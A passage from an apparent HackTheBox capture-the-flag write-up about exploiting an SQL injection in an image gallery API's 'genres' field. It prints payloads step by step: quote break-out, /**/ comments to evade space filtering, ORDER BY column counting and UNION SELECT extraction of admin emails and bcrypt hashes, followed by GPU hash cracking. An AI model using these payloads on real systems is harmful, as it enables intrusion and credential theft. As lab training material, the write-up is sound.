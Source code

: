 ----
#### Finding an SQL injection vulnerability and exploiting it
We tried injecting a single quote to genres and got **500** error code in response to `/api/v1/gallery/user/feed` endpoint:
![](<../../../assets/htb/Screenshot 2023-07-11 at 16.30.53.png>)

So far, so good. Let's confirm if we have an SQL injection vulnerability here:
![](<../../../assets/htb/Screenshot 2023-07-11 at 16.32.26.png>)
but in response we got 500 again and again and again, until we decided to figure out what type of query is there we're trying to break out of. After some experiments, we came to conclusion, that the original query was something similar to:
```SQL
"SELECT * FROM images WHERE genre IN ('food', 'travel', 'nature')"
```

Knowing this, we tried our sql injection payload:
```
{
	"genres": "bananas') OR 1=1#"
}
```

Aaand it failed. ![](<../../../assets/htb/Screenshot 2023-07-13 at 15.01.08.png>)

We spend nearly an hour here, trying to figure out why injection is not working until we realized it's all about spaces.. So we tried /\*\*/ instead of spacec and everything worked well finally.

**Using a binary search algorithm with the ORDER BY clause to determine the number of columns:**
- `{"genres":"')/**/ORDER/**/BY/**/10#"}` -> error
- `{"genres":"')/**/ORDER/**/BY/**/1#"}` -> ok
- `{"genres":"')/**/ORDER/**/BY/**/5#"}` -> ok
- `{"genres":"')/**/ORDER/**/BY/**/7#"}` -> error
- `{"genres":"')/**/ORDER/**/BY/**/6#"}` -> error

**Now that we know the count is 5, we can proceed with the UNION SELECT clause:**
```json
{
	"genres":"')/**/UNION/**/SELECT/**/1,2,3,4,5#"
}
```
![](<../../../assets/htb/Screenshot 2023-07-13 at 15.23.12.png>)

We'll utilize the "file" option, which yields the value "2", as our data exfiltration point.
Knowing Laravel's database structure, let's pull admin email and password!
![](<../../../assets/htb/Screenshot 2023-07-13 at 15.32.02.png>)

Result:
![](<../../../assets/htb/Screenshot 2023-07-13 at 15.32.51.png>)

At this juncture, we had successfully obtained two admins email addresses along with their bcrypt hashed passwords. However, we hadn't yet perused the HackTheBox FAQ page. Unaware of the guideline stating that any discovered hash should take a maximum of 5 minutes to crack with a rockyou.txt wordlist, we embarked on a more arduous journey. We fired up a quad RTX 4060 machine and brute-forced our way through approximately 85 million passwords.
